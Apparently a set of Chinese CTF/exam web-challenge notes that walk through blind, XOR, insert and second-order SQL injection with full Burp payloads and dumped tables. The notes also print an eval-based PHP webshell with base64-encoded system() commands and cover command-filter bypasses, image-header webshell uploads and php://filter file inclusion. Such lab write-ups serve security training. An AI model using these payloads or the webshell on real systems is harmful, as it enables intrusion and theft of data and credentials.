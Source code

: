 [嘤嘤嘤]timesql #SQL注入漏洞 时间/盲注
题名写了timesql但是测试直接异或盲注他回显不一致，就用异或盲注，服务器太烂了，用时间盲注时间一大一小看不清结果。
全程用bp做
爆数据库名 为hazel
```
username=admin'%20anandd%20subsubstrstr(database()%2c§1§%2c1)%3d'§2§'%20%23&password=114514
```
![[Pasted image 20240327161324.png]]
爆表名长度 为5
```
username=admin'%20anandd%20length((selselectect%20table_name%20frfromom%20infoorrmation_schema.tables%20whwhereere%20table_schema%3ddatabase()))%20%3d%20§1§%20%23
```
![[Pasted image 20240328190530.png]]
爆表名 为 users
```
username=admin'%20anandd%20subsubstrstr((selselectect%20table_name%20frfromom%20infoorrmation_schema.tables%20whwhereere%20table_schema%3ddatabase())%2c§1§%2c1)%20%3d%20'§a§'%20%23
```
![[Pasted image 20240328191209.png]]
爆字段名 为 id,username,password
```
username=admin'%20anandd%20subsubstrstr((selselectect%20group_concat(column_name)%20frfromom%20infoorrmation_schema.columns%20whwhereere%20table_name%3d'users'%20anandd%20table_schema%3ddatabase())%2c§1§%2c1)%20%3d%20'§i§'%20%23
```
![[Pasted image 20240328193336.png]]
爆字段(payload列表注意加上flag所需的字符)：
```
admin'%20anandd%20subsubstrstr((selselectect%20group_concat(id%2c%22%3a%22%2cusername%2c%22%3a%22%2cpasswoorrd%2c%22%3a%22)%20frfromom%20hazel.users)%2c§1§%2c1)%20%3d%20'§i§'%20%23
```

| id  | username | password                                    |
| --- | -------- | ------------------------------------------- |
| 0   | admin    | admin666666                                 |
| 1   | hazel    | hazel{d3f3bac6-3fe8-4e5e-8680-40a5b0003799} |

[嘤嘤嘤]insertsql #SQL注入漏洞 
insert注入，查看页面，有上传文章的功能
![[Pasted image 20240329124443.png]]
尝试在标题注入，其显示上传失败，并快速重定向至主页面，但是显示了一瞬间的sql语句，打开BP的intercept,显示出了其使用的sql语句： ^d26139
```
insert into article(title,author,description,content,dateline) values('114514' and 1=2#','114514','114514','114514',1711687035)
```
可以看到除了标题还有4个字段，那就在标题构造注入：
```
114514',database(),user(),'114514',1919810)#
```
去管理文章的页面点击修改我们刚发布的文章，可以看到其回显了数据库名以及用户名：
![[Pasted image 20240329124936.png]]
爆表名 为article,hazel
```
10086',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'10086','10086','1919810')#
```

^1e5e69

![[Pasted image 20240329125252.png]]
爆字段名 为 id,flag_is_here
```
10086',(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="hazel"),'10086','10086','1919810')#
```
![[Pasted image 20240329125514.png]]
dump
```
10086',(select flag_is_here from hazel.hazel where id=2),'10086','10086','1919810')#
```

| id  | flag_is_here                                |
| --- | ------------------------------------------- |
| 1   | shuaige                                     |
| 2   | hazel{863184db-8501-49b4-a8c9-96bc10101c72} |

[嘤嘤嘤]成绩单 #SQL注入漏洞 
页面只有一个查询框，查1出成绩，查异常值不出，尝试布尔盲注猜解闭合方式为：单引号闭合
`1' and 1=2 #`
爆数据库名长度 为 5
```
id=1'+and+length(database())%3d§1§%23
```
![[Pasted image 20240329131949.png]]
爆数据库名 为 hazel
```
id=1'+and+substr(database(),§1§,1)%3d'§1§'%23
```
![[Pasted image 20240329132535.png]]
爆表名总长度 为 7
```
id=1'+and+length((select+group_concat(table_name)+from+information_schema.tables+where+table_schema%3ddatabase()))%3d§1§%23
```
![[Pasted image 20240329132859.png]]
爆表名 为 fl4g,sc
```
id=1'+and+substr((select+group_concat(table_name)+from+information_schema.tables+where+table_schema%3ddatabase()),§1§,1)%3d'§1§'%23
```
![[Pasted image 20240329133352.png]]
爆字段长度 为 10
```
id=1'+and+length((select+group_concat(column_name)+from+information_schema.columns+where+table_schema%3ddatabase()+and+table_name%3d'fl4g'))%3d§1§%23
```
![[Pasted image 20240329135041.png]]
dump长度 为42
```
id=1'+and+length((select+*+from+hazel.fl4g))%3d§1§%23
```
dump
```
id=1'+and+substr((select+*+from+hazel.fl4g),§1§,1)%3d'§1§'%23
```
```
hazel{8c4c152d-1aa9-4991-8aac-951ca6e3efa0}
```
[嘤嘤嘤]P1_1
base64加密注入，爆字段数找回显点（让他的不成立）不要用and，页面也不会回显错误，错误就不显示结果
[嘤嘤嘤]P1_2
[嘤嘤嘤]P1_3
```
<?php

@$a = $_POST['Hello'];

if(isset($a)){

@preg_replace("/\[(.*)\]/e",'\\1',base64_decode('W0BldmFsKGJhc2U2NF9kZWNvZGUoJF9QT1NUW3owXSkpO10='));

}

?>

Hello

<br>

閫忚繃鐜拌薄鐪嬫湰璐紝涓栫晫寰堢畝鍗曪紒

W0BldmFsKGJhc2U2NF9kZWNvZGUoJF9QT1NUW3owXSkpO10=

[@eval(base64_decode($_POST[z0]));]

z0=system('ls'); --> z0=c3lzdGVtKCdscycpOw==

Hello=12312321&z0=c3lzdGVtKCdscycpOw==

Hello=12312321&z0=c3lzdGVtKCd0YWMgLi4va2V5LnBocCcpOw==
```

^bf5f69

[嘤嘤嘤]P1_4
命令执行，
过滤了cat head tail cp mv vi vim
使用grep '\*' ../flag拿flag
[嘤嘤嘤]P1_5
直接禁用JS防止其生成随机数，登录
这题key错的
[嘤嘤嘤]P2_1
sql注入
过滤：
`空格 # union`
绕过：
`/**/ %23 ununionion`
不过只是让读取文件，直接loadfile
[嘤嘤嘤]P2_2
文件上传
直接传带图片头的图片拦截加马改phtml
[嘤嘤嘤]P2_3
文件包含
使用php://filter/read=convert.base64-encode/resource=..key.php
拿到flag
[嘤嘤嘤]P2_4
命令执行
过滤了ls cat，直接定义变量绕过
[嘤嘤嘤]P2_5
日志跳
[嘤嘤嘤]P3_1
二次注入
注册admin'#123，重置密码，改的是admin密码。
[嘤嘤嘤]P3_2
文件上传
很简单只做了文件头过滤，没过滤php，所以不要一上来试phtml，万一php就行呢
[嘤嘤嘤]P3_3
和[[EXAM特供WP#^bf5f69]]P1_3一样的
[嘤嘤嘤]P3_4
代审&命令执行
cmd参数长度小于30执行cmd但不回显。
使用反引号执行命令将其重定向至文件
有admin文件夹及其下的backdoor.php
构造命令超30，使用通配符减小长度。
```
GET /start/vul.php?cmd=echo+"`cat+../a*/*.php`">1.txt
```
[嘤嘤嘤]P3_5
命令执行
过滤了; ls php使用&& 变量 通配符绕过。
[嘤嘤嘤]P4_1
有文章上传功能，是insert注入和[[EXAM特供WP#^d26139]]一样
```
insert into article(title,author,description,content,dateline) values('1'','13123','3131','313',1713177034)
```
[嘤嘤嘤]P4_2
文件上传
直接传图片马
[嘤嘤嘤]P4_3
文件包含，但是没key
[嘤嘤嘤]P4_4

